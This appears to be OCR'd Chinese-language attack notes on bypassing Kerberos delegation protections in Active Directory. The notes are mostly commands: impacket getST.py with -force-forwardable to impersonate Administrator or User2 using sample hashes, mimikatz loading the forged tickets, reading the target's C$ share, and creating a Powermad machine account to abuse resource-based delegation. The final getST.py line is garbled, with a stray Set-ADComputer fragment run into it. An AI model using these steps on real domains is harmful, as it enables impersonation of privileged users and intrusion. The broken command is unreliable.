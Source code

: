 	攻击者可以冒充不允许被委派的用户。这包括受保护用户组的成员和任何其他明确配置为敏感且无法委派的用户。
	要求：
	服务帐户的密码哈希
	服务帐户带有Constrained Delegation或Resource Based Constrained Delegation
	https://github.com/SecureAuthCorp/impacket/pull/1013
	攻击 #1 - 绕过Trust this user for delegation to specified services only – Use Kerberos only保护并冒充受委托保护的用户。
	forwardable flag 仅受使用服务帐户密码的票证加密保护
	>getST.py -spn cifs/Service2.test.local -impersonate Administrator -hashes <LM:NTLM hash> -aesKey <AES hash> test.local/Service1 -force-forwardable -dc-ip <Domain controller> # -> Forwardable
	>getST.py -spn cifs/Service2.test.local -impersonate User2 -hashes aad3b435b51404eeaad3b435b51404ee:7c1673f58e7794c77dead3174b58b68f -aesKey 4ffe0c458ef7196e4991229b0e1c4a11129282afb117b02dc2f38f0312fc84b4 test.local/Service1 -force-forwardable
	加载票据
	.\mimikatz\mimikatz.exe "kerberos::ptc User2.ccache" exit
	访问c$
	>ls \\service2.test.local\c$
	攻击 #2 - 向 AD 中的一个或多个对象写入权限
	创建一个新机器账户
	>Import-Module .\Powermad\powermad.ps1
	>New-MachineAccount -MachineAccount AttackerService -Password $(ConvertTo-SecureString 'AttackerServicePassword' -AsPlainText -Force)
	>.\mimikatz\mimikatz.exe "kerberos::hash /password:AttackerServicePassword /user:AttackerService /domain:test.local" exit
	设置PrincipalsAllowedToDelegateToAccount
	>Install-WindowsFeature RSAT-AD-PowerShell
	>Import-Module ActiveDirectory
	>Get-ADComputer AttackerService
	>Set-ADComputer Service2 -PrincipalsAllowedToDelegateToAccount AttackerService$
	>Get-ADComputer Service2 -Properties PrincipalsAllowedToDelegateToAccount

	执行攻击
	>python .\impacket\examples\getST.py -spn cifs/Service2.test.local -impersonate User2 -hashes 830f8df592f48bc036ac79a2bb8036c5:830f8df592f48bc036ac79a2bb8036c5 -aesKey 2a62271bdc6226c1106c1ed8dcb554cbf46fb99dda304c472569218c125d9ffc test.local/AttackerService -force-forwardableet-ADComputer Service2 -PrincipalsAllowedToDelegateToAccount AttackerService$

	加载票据
	>.\mimikatz\mimikatz.exe "kerberos::ptc User2.ccache" exit | Out-Null